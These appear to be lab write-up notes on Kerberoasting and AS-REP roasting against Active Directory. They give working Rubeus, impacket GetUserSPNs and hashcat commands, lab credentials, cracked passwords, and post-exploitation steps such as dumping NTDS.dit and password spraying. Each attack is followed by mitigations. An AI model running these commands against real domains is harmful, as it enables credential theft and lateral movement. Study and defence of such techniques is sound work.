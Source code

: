 > **NOTE**: be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies

## Kerberoasting
- with `rubues`: `Rubeus.exe kerberoast`
- with [impacket](https://github.com/SecureAuthCorp/impacket): `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.72.127 -request`
	- ![[write-ups/images/Pasted image 20220619122329.png]]
- and crack the hash: `hashcat -m 13100 -a 0 hash.txt Pass.txt`
	- ![[write-ups/images/Pasted image 20220619122724.png]]

### What Can a Service Account do?
- once you havee a service account there's various ways to further exfiltrate data or collecting loot depending on whether the service is a domain admin or not
- if a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit
- if not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts



### Mitigations
**Strong Service Passwords**: if the service account passwords are strong then kerberoasting will be ineffective

**Don't Make Service Accounts Domain Admins**: service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

## AS-REP Roasting
Similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled
- During pre-auth the user's hash will be used to encrypt a timestamp that the DC will attempt to decrypt in order to validate that the right hash is being used and is not replaying a previous request
- After validation, the KDC will then issue a TGT for the user
- If pre-auth is disabled we can **request any authentication data for any user and the KDC will return an encrypted TGT** *(which can further be cracked offline)*

![[write-ups/images/Pasted image 20220619123731.png]]

If we crack the hashes: `hashcat -m 18200 AS-REP Pass.txt` we get: `admin2:P@$$W0rd2, user3:Password3`
![[write-ups/images/Pasted image 20220619123955.png]]

### Mitigation
**Have a strong password policy**. With a strong password, the hashes will take longer to crack making this attack less effective

**Don't turn off Kerberos Pre-Authentication unless it's necessary** there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.
